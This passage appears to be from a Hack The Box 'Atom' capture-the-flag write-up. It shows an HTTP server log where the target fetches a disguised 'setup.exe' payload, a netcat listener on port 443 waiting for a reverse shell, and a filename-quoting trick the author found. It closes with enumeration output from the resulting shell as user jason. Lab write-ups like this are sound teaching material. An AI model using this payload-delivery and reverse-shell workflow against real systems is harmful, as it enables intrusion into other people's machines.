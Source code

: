 I could get a shell manually this way by copying my friend's filename, but using `heed'setup.exe` didn't work (even after switching to the well known port 443):

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom/to-serve]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.237 - - [03/Jun/2021 21:58:33] code 404, message File not found
10.10.10.237 - - [03/Jun/2021 21:58:33] "GET /heed'setup.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [03/Jun/2021 21:58:34] "GET /heed%27setup.exe HTTP/1.1" 200 -

┌──(mac㉿kali)-[~/Documents/HTB/atom/smb]
└─$ sudo nc -lnvp 443
listening on [any] 443 ...
```

I replaced the filename in my script to match my friend's, and it worked - so the issue wasn't with my code. When I tried the filename `h'eed` in my [final payload](#final-payload) it worked.

The code is available [here](https://github.com/Twigonometry/CTF-Tools/blob/master/hack_the_box/atom/send-payload.py).

# Shell as Jason

I did some basic privilege enumeration:

```cmd
C:\Users\jason\Desktop>whoami /all
whoami /all

USER INFORMATION
----------------

User Name  SID                                           
========== ==============================================
atom\jason S-1-5-21-1199094703-3580107816-3092147818-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    
```